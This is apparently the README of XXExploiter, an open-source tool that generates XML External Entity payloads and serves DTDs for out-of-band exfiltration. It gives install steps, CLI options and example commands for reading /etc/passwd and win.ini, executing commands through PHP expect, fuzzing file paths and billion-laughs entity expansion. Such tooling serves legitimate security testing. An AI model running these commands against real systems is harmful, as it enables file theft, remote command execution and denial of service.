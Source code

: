 # XXExploiter 

https://securityonline.info/xxexploiter-tool-to-help-exploit-xxe-vulnerabilities/
  
![Build](https://github.com/luisfontes19/xxexploiter/workflows/Build/badge.svg)
[![codecov](https://codecov.io/gh/luisfontes19/xxexploiter/branch/master/graph/badge.svg)](https://codecov.io/gh/luisfontes19/xxexploiter)
[![Known Vulnerabilities](https://snyk.io/test/github/luisfontes19/xxexploiter/badge.svg?targetFile=package.json)](https://snyk.io/test/github/luisfontes19/xxexploiter?targetFile=package.json)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

![XXExploiter](banner.png?raw=true)


It generates the XML payloads, and automatically starts a server to serve the needed DTD's or to do data exfiltration.   

## Installation  
  
```
#install node and npm if you don't have it yet 
npm install -g xxexploiter
```
  
## Building & Running  from source
This is a simple Node application written with typescript. So you can build it as you build other apps:  
(install node and npm first, if you dont have them)  
```  
npm install  
npm run build  
#you may need to npm install typescript -g in order for 'npm build' to succeed 
```  
  
To run the app you can do it with one of 3 ways:  
  
```  
npm start [args]  
node dist/index.js [args]  
npm link #and now just call xxexploiter
```  

Or you can install it on your system:

```
npm link
```
  
## Usage  
  
```  
Usage: xxexploiter [command] [options]

Commands:
  xxexploiter file [file_to_read]  Use XXE to do a request
  xxexploiter request [URL]        Use XXE to do a request
  xxexploiter expect [command]     Use XXE to execute a command through PHP's expect
  xxexploiter xee [expantions]     Generate a huge content by resolving entities

Fuzzing Specific Options
  -w, --wordlist        Path to a wordlist to be used with the fuzz command. Use {{FUZZ}} placeholder in the command arg
                        for the magic.
  -y, --success-string  String to search for a success response in the requests. Not usefull for blind attacks
  -n, --error-string    String to search for an error response in the request. Not usefull for blind attacks

Options:
  --version             Show version number                                                                    [boolean]
  -s, --server          Server address for OOB and DTD
  -p, --port            Server port for OOB and DTDs. Default: 7777
  -t, --template        path to an XML template where to inject payload
  -m, --mode            Extraction Mode: xml, oob, cdata. Default: xml
  -e, --encode          Extraction Encoding: none, phpbase64. Default: none
  -o, --output          Output for the XML payload file. Default is to console
  -x                    Use a request to automatically send the xml file
  -X, --request-output  Output the response from -x option. If not defined goes to stdout
  --verbose             Enable some messages help for understanding whats happening
  --doctype             Specify the name of the doctype to be injected. Default is xxexploiter
  -h, --help            Show help                                                                              [boolean]

Examples:
  xxexploiter expect ls
  xxexploiter -s 127.0.0.1 expect ls -e phpbase64 -m oob -o output.xml
  xxexploiter -s 127.0.0.1 file /c/windows/win.ini -t xmltemplate.xml -m oob
  xxexploiter xee 900000000 -o output.xml
  xxexploiter file /etc/passwd -x request.txt -t template.xml
  xxexploiter file /root/{FUZZ} -w wordlist.txt -n "not found" -x request.txt

Extra Info:
  - When using the xml or cdata modes, add the placeholder '{{XXE}}' in the field where you want the entity content to
  be injected
  - When specifiying file paths for windows use forward slash.
  - OOB: Out Of Bound: You can use this option to send the data processed by the xml parser, to your local webserver.
  Usefull with blind attacks
  - When using XML mode, it may break the XML parsing if XML reserved characters are loaded, so you may want to use
  cdata
  - When using the request option, you can specify the placeholder to inject the payload with {{XXE}} or {{XXE_B64}}
  - When fuzzing you can add the {{FUZZ}} keyword in the main command argument.
  - You can specify a string to filter successfull requests when fuzzing, either by supplying an expected error string,
  or an expected success string
```  

### Examples

#### Simple payload Generation
[![asciicast](https://asciinema.org/a/315867.svg)](https://asciinema.org/a/315867)

#### Automating request to send payload
[![asciicast](https://asciinema.org/a/315872.svg)](https://asciinema.org/a/315872)

#### OOB Extraction with automated request
[![asciicast](https://asciinema.org/a/315873.svg)](https://asciinema.org/a/315873)

#### Fuzzing
[![asciicast](https://asciinema.org/a/315876.svg)](https://asciinema.org/a/315876)
   
## Some notes:  
  
If you choose to use OOB or CDATA mode, XXExploiter will generate the necessary dtd to be included, and will start a server to host them. Have in mind that if you use these options you should set the server address  
  
If you include content in the body of the XML have in mind that XML restricted characters like '<' may break the parsing so be sure to use CDATA or PHP's base64encode  
  
Most of languages limit the number of entity expantions, or the total length of the content expanded, so make sure you test XEE on your machine first, with the same conditions as the target  
  
